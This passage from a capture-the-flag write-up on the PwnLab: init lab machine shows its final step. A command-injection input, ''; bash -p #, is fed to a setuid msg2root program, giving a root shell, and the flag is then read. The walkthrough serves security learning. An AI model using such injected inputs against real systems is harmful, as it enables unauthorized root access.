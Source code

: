 
It didn't worked because we have to specify `-p` option in order to have a shell as root:

![bash -p option](/assets/img/vulnhub/linux/pwnlab/bash-p.png)

{% highlight bash %}
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash -p #
''; bash -p #

bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
{% endhighlight %}

- **Flag**:

{% highlight bash %}
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 20
drwx------  2 root root 4096 Mar 17  2016 .
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
----------  1 root root 1840 Mar 17  2016 flag.txt
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
bash-4.3# cat flag.txt
cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
bash-4.3#
{% endhighlight %}
